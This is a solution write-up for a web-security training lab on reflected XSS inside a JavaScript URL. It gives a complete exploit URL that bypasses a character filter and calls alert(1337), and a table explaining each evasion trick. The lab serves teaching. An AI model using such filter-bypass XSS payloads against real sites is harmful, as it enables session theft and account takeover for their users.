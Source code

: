 # Lab 14:Reflected XSS in a JavaScript URL with some characters blocked

This lab reflects your input in a **JavaScript URL**, but attempts to prevent XSS using character filtering. Although it **appears trivial**, it requires creative exploitation due to blocked characters.

---

## 🎯 Goal

Perform a cross-site scripting (XSS) attack that:

- **Calls the `alert` function**
- Includes the string **`1337`** in the alert message

---

## 🔧 Solution

> 🔗 Replace YOUR-LAB-ID with your lab’s ID and visit this URL:
> 

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27

```

> ✅ The lab will be solved only after you click the "Back to blog" link at the bottom of the page.
> 

---

## 🧠 How It Works

- The exploit takes advantage of **JavaScript exception handling** to call `alert(1337)`.
- **`throw/**/onerror=alert,1337`** uses a comment `/**/` instead of a space to bypass character restrictions.
- The `alert` function is **assigned to the `onerror` exception handler**.
- Since `throw` is a **statement**, not an expression, we wrap it in an **arrow function block**:
    
    `x = () => { throw ... }`
    
- We assign this function to `toString`, and then trigger it with `window + ''`, which coerces the `window` object to a string, invoking the custom `toString`.

---

## 💡 Key Tricks Used

| 🧩 Technique | 💬 Description |
| --- | --- |
| `throw/**/onerror=...` | Uses comment to bypass space filtering |
| `toString = x` | Assigns the function to the window's `toString` |
| `window + ''` | Triggers `toString()` coercion |
| `alert,1337` | Comma expression ensures `1337` is passed to `alert()` |

---

## ▶️ Community Walkthrough

> Watch the lab solution step-by-step:
📺 [https://youtu.be/bCpBD--GCtQ](https://youtu.be/bCpBD--GCtQ)
>